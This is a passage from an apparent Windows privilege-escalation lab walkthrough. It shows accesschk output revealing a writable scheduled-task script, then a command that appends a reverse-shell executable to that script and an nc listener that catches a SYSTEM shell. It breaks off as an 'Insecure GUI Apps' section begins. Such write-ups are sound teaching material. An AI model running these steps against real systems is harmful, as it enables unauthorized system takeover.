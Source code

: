 
```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1

RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA # <= Confirmed
        FILE_WRITE_EA # <= Confirmed
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```



- Start up your listener and append a line to the `C:\DevTools\CleanUp.ps1` which runs the reverse shell executable:
- Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.


```powershell
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

#######################################################

❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.151.253 49834
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



## **Insecure GUI Apps**


- We need GUI session for this so make sure to connect via RDP

- There is a "`AdminPaint`" shortcut on Desktop. Once it is running, open a command prompt and note that Paint is running with admin privileges:


```powershell
C:\PrivEsc>tasklist /V | findstr mspaint.exe
tasklist /V | findstr mspaint.exe
mspaint.exe                   3184 RDP-Tcp#0                  2     30,008 K Running         WIN-QBA94KB3IOF\admin                                   0:00:00 Untitled - Paint
```
